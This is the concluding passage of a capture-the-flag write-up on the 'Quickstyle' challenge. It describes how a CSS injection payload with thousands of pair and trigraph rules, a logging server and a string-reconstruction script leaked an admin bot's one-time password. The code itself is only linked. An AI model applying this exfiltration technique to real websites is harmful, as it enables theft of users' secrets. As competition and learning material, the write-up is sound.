The first attempt that worked had multiple possible results. For some reason, I instinctively felt that the first one was the OTP---the stakes were low. I tried it by visiting <https://quickstyle.chall.lac.tf/flag?user=1&otp=vQi1sgOidhhKbGweLOQuvIvDVygqUt4BN8Z6hSMcUwOoYHhXThgIrSZfPibet0GH1bRy398E3oiBIv7N>.



### Conclusion

Here are the files I made for this challenge:

- [heyy.html](../files/lactf/heyy.html) (3 MB) contains the HTML/CSS payload that I injected, with all the thousands of CSS rules identifying the pairs and trigraphs.
- [weeno.js](../files/lactf/weeno.js) is the Deno server that tracks the requests received, reconstructs the letter cases of the trigraphs, and runs the Python program that reconstructs the strings.
- [bubby.py](../files/lactf/bubby.py) reconstructs the strings from trigraphs.

This challenge was a lot of work and required a lot of brainstorming, particularly for exfiltrating the OTP in a way that could be reconstructed. But I think it was very rewarding both because I was persistent and it was among the harder challenges of the CTF.

While I don't think I learned too much about CSS from this challenge, it's very interesting to see an approach to CSS injections that usually isn't required in other challenges. I definitely learned about more techniques for CSS injections, and I wonder if the same solution could work for CSS injection challenges in the future.

I also think it's incredibly amusing how intertwined branches of math---the birthday paradox from probability and reconstructing strings by finding a Eulerian path in a De Brujin graph---were, despite the challenge seemingly just being about CSS.

At worst, I just think that debugging the admin bot was frustrating. As feedback---not as critique for the LA CTF organizers who tried their best to help---it might be helpful in the future to provide the source for admin bot, or at least have a list of tips or common issues. I feel like I could've been told about keeping the admin bot busy a lot earlier, but maybe it might just be obvious to others who have had more experience in CTFs with infrastructure like the admin bot.

All in all, Quickstyle is one of the most interesting yet difficult challenges I've successfully completed for a CTF. I look forward to seeing more challenges by r2uwu2 and others on the LA CTF team next year.

A big thanks to LA CTF for their wide variety of challenges and excellent infrastructure! 🥰
